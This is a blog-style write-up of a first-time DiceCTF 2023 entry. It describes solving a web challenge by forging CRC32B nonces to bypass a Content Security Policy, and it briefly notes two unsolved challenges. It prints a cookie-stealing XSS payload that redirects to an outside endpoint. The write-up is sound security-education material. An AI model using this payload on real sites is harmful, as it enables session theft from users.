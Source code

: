 ```yaml
---
title: "DiceCTF 2023 Writeup"
date: 2023-02-11T09:47:42-08:00
description: My DiceCTF challenge experiences. What I learned and what cool things I found out.
images:
  - images/2023-02-11/solved-screenshot.png
tags:
  - ctf
  - security
type: post
---
```


Hello! 

DiceGang 🎲 just finished hosting DiceCTF 2023 (https://ctf.dicega.ng). It was first my first ever CTF event. I didn't really have any expectations going in and signed up on a whim. But guess what? I managed to solve one of the challenges and even gave a couple others a shot. I learned a ton from this event, and I'm definitely going to attend more CTF events in the future. 

Here are the my write ups.

### web/recursive-csp
* solved
* solves: 178
* description: the nonce isn't random, so how hard could this be? (the flag is in the admin bot's cookie)

We are greeted with a simple Hello World and a input for name. The form is simple, it will submit a `GET` request with `name` as query parameter. The new page returned by the document will have "Hello \"Name\"" instead. It was screaming XSS to me, so I just randomly inputting possible XSS attacks. But none of the `<script>` code was executing. Looking at the console error, it was blocked by the CSP header.
```
Content Security Policy: The page’s settings blocked the loading of a resource at inline (“script-src”).
```

The CSP header (`content-security-policy: default-src 'none'; script-src 'nonce-fe26ee76' 'unsafe-inline'; base-uri 'none';`) is only allowing script with particular nonce! This matches up with the hint. I started looking at how the nonce is generated by the server. At the first, I thought it was using the whole document as the input for hashing, and then only to realized that only the `name` parameter was used for input. This took way longer than I want to admit. Now I know what the server was using for the input, I need to know what kind of algorithm it is using. The nonce is always 8 characters so I started looking at any algorithm that will output 8 characters. This also took a really long time. Until I finally found a site: https://md5calc.com. I used to test md5 and other algorithms I know. What's cool about this site is that it outputs string encoded with other popular algorithms. This is how I found "CRC32B" 

> Future self here: it seems like CRC32B is a common hashing function provided by PHP.

Now I know how the server generate the nonce, I just need to somehow force it to match with my XSS. I wrote a simple js script to output `<script nonce="{input}">alert(1)</script>` where I replaced the "{input}" with a 8 characters random string and hoped the CRC32B hashing will return the same thing. My script didn't work and I was stuck. It was not able even brute force one match for me. 

I began searching online for a way to brute force it, and luckily stumbled upon this blog post by [Nayuki][Nayuki] https://www.nayuki.io/page/forcing-a-files-crc-to-any-value. The blog explains in details how the math works. To summarize it, the script adds 4 extra bytes to match the provided hash. This was really cool. I experimented with the script and found out some bytes that are injected are not URI friendly so I have to re-hash it again with a different value.

Since the CSP prevents and network request to send the cookie to an endpoint, I use `document.location` to change the headless admin bot to hope that it will redirect before it close the page. To my surprise it worked. At the end, I wrote a script to automate finding out the hash. Since the flag is in admin's cookie. We will need to use the admin bot. 

Here is my final payload
```html
<script nonce="55ed1ba5">document.location="https://adice.free.beeceptor.com?c="+document.cookie</script>  uO91
```

> Future self here: `https://beeceptor.com` was a site I used to get a temporary endpoint. However, reading everyone else's write up it seemed like `https://webhook.site` is what people usually use. 


Honestly, I faced a lot of difficulties during the whole process like figuring out the hash algorithm, troubleshooting why the random bytes weren't working, and understanding how the admin bot operates. It took me roughly 15 hours to solve this challenge, but even if I hadn't, it would still have been worth the effort. The amount of joy when I saw the `flag` was indescribable.

{{< figure
    src="/images/2023-02-11/solved-screenshot.png"
    alt="A solved screenshot for recursive-csp challenge"
>}}

Here is the author [strellic][strellic]'s [write up](https://brycec.me/posts/dicectf_2023_challenges). He wrote a simple rust program to force the output which is super fast than my javascript version! It also worked a lot better. Additionally, the author created three more awesome challenges that are worth checking out!


## Unsolved challenge 

I attempted other challenges but couldn't solve them. Here are notes to myself for studying and documenting what I attempted.

### web/scorescope
* solves: 55
* description: I'm really struggling in this class. Care to give me a hand?

This challenge has a file named `template.py`, we need to implement all the functions and upload to the site for grading. It felt like university homework. The test cases included a `hidden` case so users couldn't guess it anyway. I couldn't solve this. I don't use python regularly. But here is a good write up by [r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/)

I learned a lot about exposing what the main module has and how to manipulate it.

### web/codebox
* solves: 30
* description: strellic makes csp challs, maybe i should try one sometime

This is another really cool challenge with CSP. It uses `report-uri` to leak information to an external server. It also uses a cool trick with how `URL().searchParams.get()` and `express`'s `req.query` parse multiple parameters with the same key. `URL` uses the first and `express` uses the last. This blew my mind 🤯. I didn't know even think this was possible, I assume everything follow a standard.

[r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/)'s write up also included detail explanation on how the challenge worked.


## Conclusion

This was my first ever CTF event, I am really proud that I even solved 1 challenge. I learned a lot by participating the event.

Here are things that I learned:
* Amazing people/groups to follow: [strellic][strellic], [ankursundara][ankursundara], [r3kapig][r3kapig], [Nayuki][Nayuki]
* What is a Content Security Policy header and how to use it.
* What is CRC32 hashing algorithm.
* [pwntool](https://github.com/Gallopsled/pwntools) to interact with server. Useful for scripting and parsing the output.


There are plenty more things that I won't list here. That's about it, thank you for reading. 

[strellic]: https://twitter.com/Strellic_
[ankursundara]: https://twitter.com/ankursundara
[r3kapig]: https://twitter.com/r3kapig
[Nayuki]: https://www.nayuki.io
